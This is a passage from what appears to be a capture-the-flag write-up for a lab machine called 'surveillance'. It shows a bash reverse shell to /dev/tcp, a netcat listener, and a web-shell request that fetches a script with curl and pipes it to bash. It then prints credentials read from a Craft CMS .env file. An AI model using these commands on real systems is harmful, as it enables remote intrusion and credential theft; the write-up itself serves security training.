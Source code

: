 Let's get our reverse shell now:

```sh
# get a reverse shell and a webserver to access it
echo -ne '#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.71/4444 0>&1' > bash.sh
python3 -m http.server 8888

# open a listening port
nc -lvnp 4444

# grab the shell on the webserver on our machine from the webserver
curl 'http://surveillance.htb/shell.php?cmd=curl+10.10.14.71:8888/bash.sh|bash'

# shell as www-data
www-data@surveillance:~/html/craft/web$
```
# Foothold

Now that we have access to the machine as `www-data`, we have to find a way to elevate our privileges. 

It turns out there is a `.env` file in `/var/www/html/craft` directory.

Inside it there is some valuable data:

```sh
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```
